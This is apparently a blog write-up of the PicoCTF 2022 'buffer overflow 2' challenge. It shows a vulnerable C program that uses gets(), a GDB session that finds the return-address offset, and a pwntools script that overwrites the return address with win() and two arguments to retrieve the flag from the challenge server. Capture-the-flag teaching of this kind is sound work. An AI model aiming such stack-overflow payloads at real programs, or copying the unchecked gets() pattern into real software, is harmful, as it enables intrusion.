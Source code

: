 ```yaml
---
layout: single
title:  "PicoCTF 2022 - buffer overflow 2"
categories: 
  - PicoCTF
  - Binary Exploitation
tags:
  - ctf
  - picoctf
toc: true
toc_label: "Contents"
toc_icon: "list"  # corresponding Font Awesome icon name (without fa prefix)
excerpt: "A ret2win challenge that involves parameters on the call stack."
---
```


## Preamble - The Call Stack
Referring to the following diagram of a call stack,
![Call Stack](https://avinetworks.com/wp-content/uploads/2020/06/buffer-overflow-diagram.png)
We note the relative locations of the base pointer, return function and parameters on our call stack. This will come in handy later.


## My Solution
As usual, we will look at the `vuln` binary. Using `checksec`, we observe the following:
```bash
$ checksec vuln                                                                     
[*] '.../vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
From this, we can crucially see that the file is a 32-bit little-endian ELF file with no stack canary. NX is enabled, but I don't think this will affect our approach for this challenge.

Now, looking at `vuln.c`, we can note down some interesting features.
```c
...
#define BUFSIZE 100
#define FLAGSIZE 64

void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```
As mentioned earlier, parameters are involved in this challenge. We can see that the `win()` function takes in two parameters, `arg1` and `arg2`. Within the function, we can see that the win condition is fulfilled if and only if `arg1` and `arg2` are equivalent to `0xCAFEF00D` and `0xF00DF00D`.

Aside from this, nothing else seems out of the ordinary. We'll just need to insert our parameters into the call stack when we run our exploit.

Now, let's use `readelf` to find the function addresses.
```bash
$ readelf -s vuln
>> Symbol table '.symtab' contains 77 entries:
...
64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win
...
73: 08049372   122 FUNC    GLOBAL DEFAULT   15 main
...
```
For this challenge, we'll note down that the addresses of `win()` and `main()` are `0x08049296` and `0x08049372` respectively.

Let's find the offset to EIP using GDB.
```bash
$ gdb vuln
>> ...
gef➤ pattern create 150
[+] Generating a pattern of 150 bytes (n=8)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
[+] Saved as '$_gef0'
gef➤  r
Starting program: .../vuln
Please enter your string:
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma

Program received signal SIGSEGV, Segmentation fault.
0x62616164 in ?? ()
...
gef➤  pattern offset $eip
[+] Searching for '64616162'/'62616164' with period=4
[+] Found at offset 112 (little-endian search) likely
```
Therefore, the offset to EIP is 112.

We can now craft our exploit. Using Python 3 and pwntools:
```python
# solve.py

from pwn import *
# elf = ELF('./vuln') # for local execution
# p = process(elf.path) # for local execution
p = remote('saturn.picoctf.net', 51325) # for remote execution

# payload buffer
payload = b'A' * 112 # offset
payload += p32(0x08049296) # win()
payload += p32(0x08049372) # main() - return function address
payload += p32(0xCAFEF00D) # param 1
payload += p32(0xF00DF00D) # param 2

p.recvline().decode("utf-8")
p.sendline(payload)
print(p.recvall())
```
```bash
[+] Opening connection to saturn.picoctf.net on port 51325: Done
picoCTF{argum3nt5_4_d4yZ_59cd5643}Please enter your string:

[*] Closed connection to saturn.picoctf.net port 51325
```


## Learning Takeaways
### How is this any different from a typical 32-bit ret2win challenge?
Recall that parameters are involved. This means that we need to craft our payload in such a manner that it can emulate a "normal" call stack.

For a standard 32-bit ret2win challenge, all we need to do is insert the address of our flag/win function into the buffer (which exists on the call stack). This was seen from our solution to the [buffer overflow 1](https://yhwong20.github.io/picoctf/binary%20exploitation/buffer-overflow-1/) challenge. This would alter the execution flow of our program, as we are now artificially inducing the execution of our flag function, by inserting it into the call stack.

What's different here, is that `win()` takes in 2 parameters. Hence, we need to add in these parameters into the call stack to trigger the win condition. If we do not insert the correct parameters, or if parameters are missing, it will cause the program to not execute correctly.

### Why does the payload look like that?
Recall the diagram of the call stack which was shown earlier, and the relative order of each region on the stack.

Firstly, for us to reach and overwrite the region of the call stack which stores parameters, we will need to go through the 4 byte space which stores the address of our return function. This means that the address of the return function must be added to the payload (after `win()`).

Normally, the return function would be `main()`, and this is also why I've chosen to preserve it in the payload (to ensure the program can run properly). However, I think it is also possible to insert any arbitrary address into the return address space (I've tried inserting `0x0` which worked just as fine). Ultimately, we just want to preserve the relative order of the stack in the payload, and this means that the return function address must be present.

Next, we'll insert our parameters. As per the **cdecl** calling conventions, which are used for x86 32-bit binaries, parameters are stored on the call stack in reverse order (generally speaking, the last argument is pushed onto the stack first, and the first argument is pushed last). This means that `arg2` is passed onto the call stack before `arg1`, and consequently, `arg2` is higher in memory than `arg1`. Since we want to emulate the call stack using our payload, we have to preserve the relative ordering of parameters as well.

Thus, we craft the payload in such a manner to ensure that `arg2` is higher in memory than `arg1`, and `win()` is as low in memory as possible (after the buffer). The earlier we insert something into the payload, the lower it should exist in memory, and this helps us maintain the relative structure and order of the call stack.


## References
- [John Hammond (YouTube): Pwntools & GDB for Buffer Overflow w/ Arguments (PicoCTF 2022 #43 'buffer-overflow2')](https://www.youtube.com/watch?v=26mEa1Ojux8&list=PL1H1sBF1VAKUbRWMCzEBi61Z_7um7V5Sd&index=44)
- [CTF 101 - Calling Conventions](https://ctf101.org/binary-exploitation/what-are-calling-conventions/)